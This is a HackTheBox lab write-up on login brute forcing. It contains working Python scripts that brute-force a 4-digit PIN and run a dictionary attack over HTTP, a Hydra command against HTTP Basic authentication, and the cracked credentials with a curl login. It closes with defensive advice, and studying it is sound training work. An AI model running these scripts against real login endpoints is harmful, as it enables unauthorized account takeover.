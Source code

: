 # HTB-Writeup-BruteForceAttacks
HackTheBox Writeup: Login Brute Forcing techniques, utilizing Hydra, Medusa, Python (requests), cURL, and Nmap to exploit weak authentication mechanisms in HTTP, SSH, FTP.

By Ramyar Daneshgar 


## **Brute Force Attacks**
### **Question 1: After successfully brute-forcing the PIN, what is the full flag the script returns?**

### **Understanding the Attack Vector**
Brute force attacks exploit the fact that systems often implement weak authentication mechanisms with limited input spaces. In this case, the target system uses a 4-digit PIN as a security measure, making it vulnerable to an exhaustive search attack. Since a 4-digit PIN has only 10,000 possible combinations (0000-9999), iterating through all possible values is computationally trivial.

### **Implementation Strategy**
To automate the attack, I wrote a Python script (`solver.py`) that:
1. **Sends HTTP GET requests to the target server** using the format `http://STMIP:STMPO/pin?pin={formatted_pin}`.
2. **Iterates through all possible 4-digit PINs**, formatting them to ensure leading zeros are preserved.
3. **Checks the server’s response** for the correct PIN by verifying if the response contains a success flag.
4. **Terminates upon finding the correct PIN** to avoid unnecessary requests.

#### **Code Execution**
```python
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO  # Change this to your instance port number

for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Ensure the PIN is always a 4-digit string
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():  
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### **Why This Works**
- **Predictable Input Space:** Since the PIN length is only 4 digits, the number of possible combinations is small.
- **No Rate Limiting or Lockout Mechanism:** The script assumes there’s no brute-force protection, such as account lockouts or rate limiting, allowing an attacker to exhaustively test all PINs without consequence.
- **Efficient Checking:** The script stops immediately once the correct PIN is found, reducing unnecessary network traffic.

### **Execution and Outcome**
Running the script successfully returns:
```shell
python3 solver.py

Correct PIN found: 3424
Flag: {hidden}
```
This confirms the vulnerability of the authentication mechanism and provides the required flag.

---

## **Dictionary Attacks**
### **Question 1: After successfully brute-forcing the target using the script, what is the full flag the script returns?**

### **Understanding the Attack Vector**
Unlike brute-force attacks that try all possible values, **dictionary attacks leverage common passwords** from predefined lists. These attacks are effective because users often choose weak passwords found in public leaks or common password lists.

### **Implementation Strategy**
For this attack, I:
1. **Downloaded a common password list** (`500-worst-passwords.txt`) from GitHub’s SecLists repository.
2. **Iterated through the list** and attempted authentication using each password.
3. **Sent HTTP POST requests** to the target’s authentication endpoint.
4. **Checked responses for success** by looking for the `flag` keyword in the JSON response.

#### **Code Execution**
```python
import requests

ip = "STMIP"
port = STMPO

passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

for password in passwords:
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### **Why This Works**
- **Users Choose Weak Passwords:** Many users pick passwords that are easy to remember but also easy to guess.
- **Publicly Available Password Lists:** The script uses a well-known repository of weak passwords, increasing the likelihood of success.
- **No Account Lockout Mechanism:** If the system doesn’t enforce account lockouts or rate limits, attackers can test thousands of passwords without detection.

### **Execution and Outcome**
Running the script successfully returns:
```shell
python3 solver.py

Correct password found: gateway
Flag: {hidden}
```
This confirms that the system is susceptible to dictionary-based attacks.

---

## **Basic HTTP Authentication**
### **Question 1: After successfully brute-forcing and logging into the target, what is the full flag you find?**

### **Understanding the Attack Vector**
Basic HTTP authentication is a simple authentication scheme that sends usernames and passwords in Base64 encoding. If credentials are weak or guessable, they can be brute-forced easily.

### **Implementation Strategy**
For this attack, I:
1. **Downloaded a wordlist of common passwords** (`2023-200_most_used_passwords.txt`).
2. **Used Hydra**, a popular password-cracking tool, to perform an HTTP GET request brute-force.
3. **Checked responses for successful authentication**.

#### **Code Execution**
```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt STMIP http-get / -s STMPO
```

### **Why This Works**
- **HTTP Basic Authentication Uses Base64 Encoding:** Base64 is not encryption but an encoding format, meaning credentials can be decoded easily.
- **Weak Credentials Are Common:** Many services use easily guessable usernames (e.g., `admin`, `user`, `test`) and weak passwords.
- **No Rate Limiting or Account Lockout:** The attack assumes no protection mechanisms are in place.

### **Execution and Outcome**
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.54.201 http-get / -s 52992
[52992][http-get] host: 94.237.54.201   login: basic-auth-user   password: Password@123
```
After obtaining valid credentials, I used `curl` to log in and retrieve the flag:
```shell
curl http://STMIP:STMPO -u "basic-auth-user:Password@123" | grep HTB{
```
This returned:
```html
<p>You found the flag: <span class="flag">{hidden}</span></p>
```

---

## **Key Takeaways**
1. **Brute-force attacks** exploit predictable input spaces (e.g., PINs, limited character passwords).
2. **Dictionary attacks** take advantage of users choosing weak or common passwords.
3. **HTTP Basic Authentication is insecure** when weak credentials are used and no brute-force protection exists.
4. **Rate limiting, account lockouts, and multi-factor authentication (MFA)** are essential to prevent these attacks.

### **How to Defend Against These Attacks**
- **Implement Account Lockout Mechanisms:** Lock accounts after multiple failed attempts.
- **Use Strong Password Policies:** Enforce long, complex passwords.
- **Enable Rate Limiting:** Restrict the number of login attempts per user/IP.
- **Deploy Multi-Factor Authentication (MFA):** Require an additional authentication factor.
- **Avoid Using HTTP Basic Authentication:** Instead, use more secure authentication mechanisms like OAuth or JWT.

